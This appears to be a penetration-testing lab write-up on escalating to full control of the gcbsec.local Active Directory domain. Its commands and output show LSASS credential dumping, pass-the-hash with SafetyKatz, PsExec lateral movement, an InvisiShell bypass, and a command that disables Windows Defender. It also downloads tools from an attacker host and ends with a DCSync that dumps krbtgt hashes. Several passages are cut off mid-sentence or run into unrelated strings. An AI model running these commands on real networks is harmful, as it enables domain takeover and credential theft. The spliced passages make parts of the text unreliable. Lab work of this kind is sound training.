

In Path 5, Section 8, our objective is to achieve Domain Admin privileges on the gcbsec.local domain by executing a multi-step privilege escalation chain. We begin on IT-TRACK01, where we extract credentials through a memory dump. These credentials allow us to gain local administrator access on SEC-SYSLOG01. Once on SEC-SYSLOG01, we locate and extract higher-privileged credentials, specifically Domain Admin-level, which are then used to compromise the domain controller SEC-DC.
During this process, we will likely have to bypass various Windows Defender protections including Application Control, ASR (Attack Surface Reduction), and Credential Guard/LSASS protections (CLM). The end goal is to extract valid credentials and replay them to escalate our privileges within the gcbsec.local domain, concluding with full Domain Admin access.
If we remember from our credentials dumping on our own attacking workstations (itemployee41$), when dumped the Vault credentials, we used the first credential to get local domain admin on IT-PREPROD MySQL DataBase, but we never used the second credential at all. As we are able to see the 2 credential seems to be promising and we will use this second credential to login into the web service Redmine running on IT-PREPROD.
ITEmployee41 LSASS Dumps - Vault::list
1. Internet Explorer
Type : {3ccd5499-87a8-4b10-a215-608888dd3b55}
LastWritten : 5/16/2024 5:39:33 AM
Flags : 00000400
Ressource : [STRING] http://192.168.4.111/
Identity : [STRING] itemployees
Authenticator :
PackageSid :
*Authenticator* : [STRING] ReadOnlyAccessback to IT-PREPROD server, we need to use those credentials on Redmine running on it.

While surfing around the application, we will find out that there is a project name Investigations.


While checking this project it is possible to find that on BUG#2, the administrator updated the description saying that he was working on a new tools to be able to extract secrets from LSASS, he also uploaded a dump named lsass_mem.dmp. After downloading it into our attacking host, let us use SafetyKatz.exe to request for all the LSASS credentials on the lsass_mem.dmp file.
We encountered a persistent issue when attempting to extract credentials from the lsass_mem.dmp file using both Mimikatz and SafetyKatz. Despite loading th
In summary, the failure with Mimikatz and SafetyKatz was due to their reliance on decrypted LSA structures, which were inaccessible in this dump. pypykatz, being less dependent on key imports and more flexible in its parsing strategy, succeeded where the others failed.
During the domain trust enumeration, I was not able to find a relationship between it.gcb.local and gcbsec.local and you can see below.
I used PowerView module for this enumeration.
Get-DomainTrust

PortScan
Because the previous enumeration did not point to the valid domain we were supposed to move to, we should then look for another direction and this was the port scan on network 192.168.144.0/24.
In a Windows-based environment where ICMP echo requests (ping) are typically blocked by Windows Defender Firewall, the classic nmap -sn ping scan becomes ineffective. To bypass that and reliably discover live hosts, especially during internal assessments where we are scanning from within the network (e.g., lateral movement scenarios), the best approach is to rely on TCP-based host discovery.
nmap -n -Pn -p 445,135,139,3389,5985 --open 192.168.144.0/24

Why this works:
n- disables DNS resolution, speeds things up, and avoids noise.Pn- tells Nmap not to ping - it treats all hosts as online and probes them directly.
We initially attempt to elevate privileges to the admin user on the secsyslog domain using Rubeus with the /asktgt technique. Despite supplying the correct RC4 hash and specifying the domain, this approach failed with a KRB-ERROR (68): KDC_ERR_WRONG_REALM. This error clearly indicated that the domain controller we were communicating with192.168.4.2, belonging to it.gcb.localwas not authoritative for the secsyslog domain. In other words, we were sending our Kerberos ticket request to the wrong realm. Although the hash and user information were valid, Kerberos cannot issue a TGT for a domain it doesn't own, which is why the authentication request was rejected.

Pass-the-Hash Token Injection (Local Impersonation via sekurlsa::pth)
OR
LSASS-based NTLM Session Forgery (No Kerberos)
After that failure, we pivoted to using SafetyKatz and executed a pass-the-hash attack with the sekurlsa::pth command. This method worked. It launched a PowerShell process where our identity was forged in-memory as admin@secsyslog, using the same NTLM hash. Unlike Kerberos, this technique doesn't involve reaching out to a domain controller for a TGT-it instead modifies the current process token and injects credentials locally. The OS treats that process as if it's running under the impersonated user. We confirmed the identity was assumed correctly, but noticed that no Kerberos tickets were available (klist showed an empty cache). That was expected because this method does not automatically request a TGT; it simply crafts a new logon session with the provided hash.
SafetyKatz.exe "privilege::debug" "sekurlsa::pth /user:admin /domain:SECSYSLOG /ntlm:fd9987e39827094aebac8233fefa519b /run:cmd" "exit"

Next, we tried to move laterally to another host using PowerShell remoting via Enter-PSSession and winrs. Both methods failed with an error stating that the destination needed to be either in the TrustedHosts list or the connection needed to use HTTPS. Since we were targeting the host by its IP address and hadn't modified the WinRM client policy, our session despite being forged as a domain admin was rejected by the remote machine due to the lack of explicit trust or secure transport. This confirmed that the issue wasn't with the credentials, but with how WinRM handles authentication over IP in default configurations.
Deep Dive on the Problem
The technique that worked using SafetyKatz specifically the sekurlsa::pth command, is a local process-level token injection that enables us to impersonate a user by crafting a fake logon session directly within LSASS using only an NTLM hash. Rubeus, on the other hand, operates primarily through Kerberos ticket requests and manipulations. So no, Rubeus cannot do exactly what SafetyKatz (or Mimikatz) does with sekurlsa::pth. The two tools are solving related, but fundamentally different problems.
That said, Rubeus does offer an equivalent outcome under the right conditions, but only if we can obtain a TGT. With that TGT, we can either:
Finally, we turned to PsExec, passing the same target IP and launching PowerShell interactively. This succeeded immediately. The reason is simple: PsExec does not rely on WinRM or Kerberos. Instead, it uses SMB to copy a service executable to the target, executes it under NT AUTHORITY\SYSTEM, and tunnels the I/O back to our machine. Because our current process was already impersonating admin@secsyslog, and that account had administrative rights on the target, PsExec executed flawlessly and gave us a shell as NT AUTHORITY\SYSTEM.
In the end, the difference came down to protocol behavior. Kerberos-based authentication via Rubeus failed due to a realm mismatch, and WinRM-based remoting was blocked by host trust restrictions. Meanwhile, the pass-the-hash via SafetyKatz created a valid local identity, and PsExec leveraged that identity using SMB, bypassing the need for ticket-based authentication altogether.
.\PsExec64.exe \\192.168.144.197 -i -s cmd

InvisiShell
Let's use InvisiShell to bypass PowerShell defense mechanisms and also disabled Defender right after.
set COR_PROFILER={cf0d821e-299b-5307-a3d8-b283c03916db}
REG ADD "HKCU\Software\Classes\CLSID\{cf0d821e-299b-5307-a3d8-b283c03916db}" /f
REG ADD "HKCU\Software\Classes\CLSID\{cf0d821e-299b-5307-a3d8-b283c03916db}\InprocServer32" /f
REG ADD "HKCU\Software\Classes\CLSID\{cf0d821e-299b-5307-a3d8-b283c03916db}\InprocServer32" /ve /t REG_SZ /d "%~dp0InShellProf.dll" /f
powershell
set COR_ENABLE_PROFILING=
set COR_PROFILER=
REG DELETE "HKCU\Software\Classes\CLSID\{cf0d821e-299b-5307-a3d8-b283c03916db}" /fDisable Defender
Since we have local admin remote access to that machine, let's now disable firewall and dump the credentials.
Set-MpPreference -DisableRealtimeMonitoring 1; Set-MpPreference -DisableBehaviorMonitoring 1; Set-MpPreference -DisableScriptScanning 1; Set-MpPreference -DisableIntrusionPreventionSystem 1; Set-MpPreference -DisableNetworkProtection 1; Set-MpPreference -SubmitSamplesConsent 2; Set-MpPreference -MAPSReporting 0; Set-MpPreference -PUAProtection 0Import SafetyKatz on the target
Invoke-WebRequest -Uri http://192.168.100.41:443/SafetyKazt.exe -OutFile "C:\SafetyKatz.exe" -UseBasicParsing
We encountered a persistent issue when attempting to extract credentials from LSASS using SafetyKatz and Mimikatz version 2.2.0. Despite having full administrative rights and even running as NT AUTHORITY\SYSTEM, every attempt to execute the sekurlsa::logonpasswords command resulted in the error below.
ERROR kuhl_m_sekurlsa_acquireLSA ; Key import

This error typically points to a failure in acquiring or interpreting the crypto material within LSASS memory. Given our privilege level and proper command syntax, initial assumptions about incorrect permissions or execution context were ruled out. We confirmed the issue persisted across both PowerShell and CMD environments, and that it was not related to clipboard injection or character mangling.
After further investigation and validation, we discovered that this issue was caused by the version of Mimikatz/SaftyKatz being used. Mimikatz 2.2.0, while more recent, introduced changes in how it accesses and interprets LSASS memory structures. These changes, while designed for compatibility with modern Windows builds, are known to break support in specific scenarios particularly in environments where LSASS protection mechanisms (e.g., RunAsPPL) or security mitigations cause offset mismatch
Mimikatz 2.1.1 - sekurlsa::logonpasswords
mimikatz(commandline) # privilege::debug
Privilege '20' OK
mimikatz(commandline) # sekurlsa::logonpasswords
Authentication Id : 0 ; 2303680 (00000000:002326c0)
Session : Interactive from 2
User Name : UMFD-2
Domain : Font Driver Host
Logon Server : (null)
Logon Time : 2/15/2024 8:28:29 AM
SID : S-1-5-96-0-2
msv :
[00000003] Primary
* Username : SEC-SYSLOG01$
* Domain : SEC
* NTLM : 24413f97e44cd86bfe2e7693d85be7e6
* SHA1 : 6eb5f022a4f637ee790945d58410a22203e9a7e1
tspkg :
wdigest :
* Username : SEC-SYSLOG01$
* Domain : SEC
* Password : (null)
kerberos :
* Username : SEC-SYSLOG01$
* Domain : gcbsec.local
* Password : %Z3@gGD=%@.fu?xSI71?'13U`9LOSgwrsVLR3\f"ZDa1rO'pm)\8"%>uA!.qbr3;BLT5t%K*.PbVfI.S"Tdj2Y&^B#>su`'p[A$K\UuA!.qbr3;BLT5t%K*.PbVfI.S"Tdj2Y&^B#>su`'p[A$K\UuA!.qbr3;BLT5t%K*.PbVfI.S"Tdj2Y&^B#>su`'p[A$K\U.\mimikatz_old.exe "privilege::debug" "sekurlsa::ekeys" "exit"

sekurlsa::ekeys
.\mimikatz_old.exe "privilege::debug" "sekurlsa::ekeys" "exit"
mimikatz(commandline) # privilege::debug
Privilege '20' OK
mimikatz(commandline) # sekurlsa::ekeys
Authentication Id : 0 ; 2303680 (00000000:002326c0)
Session : Interactive from 2
User Name : UMFD-2
Domain : Font Driver Host
Logon Server : (null)
Logon Time : 2/15/2024 8:28:29 AM
SID : S-1-5-96-0-2
* Username : SEC-SYSLOG01$
* Domain : gcbsec.local
* Password : %Z3@gGD=%@.fu?xSI71?'13U`9LOSgwrsVLR3\f"ZDa1rO'pm)\8"%>uA!.qbr3;BLT5t%K*.PbVfI.S"Tdj2Y&^B#>su`'p[A$K\UuA!.qbr3;BLT5t%K*.PbVfI.S"Tdj2Y&^B#>su`'p[A$K\UuA!.qbr3;BLT5t%K*.PbVfI.S"Tdj2Y&^B#>su`'p[A$K\U.\PsExec.exe \\192.168.144.197 -accepteula -u "sec\syslogagent" -p "Password123" cmd

Invoke-WebRequest -Uri http://192.168.100.41:443/ADModule-master.zip -OutFile "C:\ADModule-master.zip" -UseBasicParsing
Expand-Archive -Path "C:\ADModule-master.zip" -DestinationPath "C:\"
Get-ADUser -Filter * | Select-Object -ExpandProperty 'Name'

Get-ADComputer -Filter * | Select-Object -ExpandProperty 'Name'

ipconfig /all

We confirmed that we are operating under the sec\syslogagent user account. This account is not only a member of the local Administrators group, but also belongs to the highly privileged Enterprise Admins group in the Active Directory domain. Despite not being part of the Domain Admins group, being an Enterprise Admin grants this user equivalent or greater privileges across the forest, allowing for administration of any domain within it. This has significant implications for lateral movement, domain-wide privilege escalation, and trust exploitation.
Get-ADDomainController

The enumeration output from Get-ADDomainController confirms the domain controller's identity, role, and configuration details for the gcbsec.local domain.
The domain controller is SEC-DC, located at the IPv4 address 192.168.144.1, and is running Windows Server 2019 Standard. It serves as a global catalog server and is not read-only, meaning it can process write operations and perform replication. The server is fully integrated into the forest gcbsec.local, and it holds all five FSMO roles, Schema Master, Domain Naming Master, PDC Emulator, RID Master, and Infrastructure Master. This indicates that SEC-DC is the most authoritative domain controller in this environment.
Get-ADTrust -Filter *

Get-ADGroup -Filter * | Select-Object -ExpandProperty 'Name'
Groups
Administrators
Users
Guests
Print Operators
Backup Operators
Replicator
Remote Desktop Users
Network Configuration Operators
Performance Monitor Users
Performance Log Users
Distributed COM Users
IIS_IUSRS
Cryptographic Operators
Event Log Readers
Certificate Service DCOM Access
RDS Remote Access Servers
RDS Endpoint Servers
RDS Management Servers
Hyper-V Administrators
Access Control Assistance Operators
Remote Management Users
Storage Replica Administrators
Domain Computers
Domain Controllers
Schema Admins
Enterprise Admins
Cert Publishers
Domain Admins
Domain Users
Domain Guests
Group Policy Creator Owners
RAS and IAS Servers
Server Operators
Account Operators
Pre-Windows 2000 Compatible Access
Incoming Forest Trust Builders
Windows Authorization Access Group
Terminal Server License Servers
Allowed RODC Password Replication Group
Denied RODC Password Replication Group
Read-only Domain Controllers
Enterprise Read-only Domain Controllers
Cloneable Domain Controllers
Protected Users
Key Admins
Enterprise Key Admins
DnsAdmins
DnsUpdateProxyGet-ADGroupMember -Identity 'Enterprise Admins'

We verified that syslogagent is indeed a direct member of the Enterprise Admins group. This was a critical discovery, as it solidifies our foothold at the forest level. We also see the domain Administrator account as another member of this group, further validating that this group is membership is intentionally structured for top-tier administrative access.
Together, this triage gives us a clear view of where syslogagent stands within the hierarchy, while not a domain admin, it holds a higher strategic position as an enterprise admin, which can be leveraged for further attack paths or persistence mechanisms across the AD forest.
.\SafetyKatz.exe "privilege::debug" "lsadump::dcsync /user:sec\krbtgt" "exit"

DCSync
.\SafetyKatz.exe "privilege::debug" "lsadump::dcsync /user:sec\krbtgt" "exit"
mimikatz(commandline) # privilege::debug
Privilege '20' OK
mimikatz(commandline) # lsadump::dcsync /user:sec\krbtgt
[DC] 'gcbsec.local' will be the domain
[DC] 'sec-dc.gcbsec.local' will be the DC server
[DC] 'sec\krbtgt' will be the user account
[rpc] Service : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)
Object RDN : krbtgt
** SAM ACCOUNT **
SAM Username : krbtgt
Account Type : 30000000 ( USER_OBJECT )
User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT )
Account expiration :
Password last change : 5/26/2019 4:44:00 AM
Object Security ID : S-1-5-21-4056425676-3036975250-1243519898-502
Object Relative ID : 502
Credentials:
Hash NTLM: da6010de93e6e1c94bdd90bb42a9920e
ntlm- 0: da6010de93e6e1c94bdd90bb42a9920e
lm - 0: 6a78868ea499826ad40dcd2bc80490f5
Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
Random Value : 9e2fdb212cf30e2f2480ba48e1fbc2a7
* Primary:Kerberos-Newer-Keys *
Default Salt : GCBSEC.LOCALkrbtgt
Default Iterations : 4096
Credentials
aes256_hmac (4096) : 431ea6c9bee05ed969f0787cd57c00d1105a20b748511956aa4881732890b9d3
aes128_hmac (4096) : d696b81649c3d126680548702e7d6013
des_cbc_md5 (4096) : c1297a2fc49d31bc
* Primary:Kerberos *
Default Salt : GCBSEC.LOCALkrbtgt
Credentials
des_cbc_md5 : c1297a2fc49d31bc
* Packages *
NTLM-Strong-NTOWF
* Primary:WDigest *
01 1056e56c2297fa1365354d09fa247175
02 2aa3e92e74f26e57bb06a6bc0a62af21
03 ea3d761ead7417b5f63328ba3780c791
04 1056e56c2297fa1365354d09fa247175
05 2aa3e92e74f26e57bb06a6bc0a62af21
06 955d5fe74d5432721ebd1108f288eca9
07 1056e56c2297fa1365354d09fa247175
08 6fd58204c68d4ce36f04c688650e8753
09 6fd58204c68d4ce36f04c688650e8753
10 cfcf9e3c9e2fcb7ab04f652767f75724
11 29981ec91d9887c62b0f00b8a01dc201
12 6fd58204c68d4ce36f04c688650e8753
13 27f3c32a1f8477a301b0d7338baf93e5
14 29981ec91d9887c62b0f00b8a01dc201
15 abf96c2c7f1bf6a99876221b77f97889
16 abf96c2c7f1bf6a99876221b77f97889
17 3f6aec6c5144aaa2e75420a4999abb8d
18 401a4ca99f0cf769fcbd195c155b8766
19 29f720174be0cba1863ca6abefa6cfeb
20 c6f66bdaae424ca4a71afebf3fd61e4d
21 29138b630c456ced08cc87983885c628
22 29138b630c456ced08cc87983885c628
23 a4bcbb1e4d55217dc18b7a1973369a58
24 46fe5e00c979824f9dc10be122cf77c6
25 46fe5e00c979824f9dc10be122cf77c6
26 762a6abd9d68635aea5adc242461e704
27 23836fd24ee77536d5f5b7d59edc0d0b
28 9b8d5eb9490a8c8d2326b6e81be89651
29 202d78ad58eff2556fc005ab2703ebd1We successfully performed a DCSync attack using SafetyKatz from a host where we had compromised the syslogagent user, who is a member of the Enterprise Admins group. This privilege level was critical because it gave us the necessary rights to replicate domain secrets without needing additional ACL manipulation.
The DCSync operation targeted the krbtgt account in the sec domain. As expected, it returned a full credential dump, including the NTLM hash, LM hash, and Kerberos key material (AES, DES, and supplemental credentials like WDigest and NTLM-Strong-NTOWF). This confirms full control over the Kerberos ticket granting infrastructure.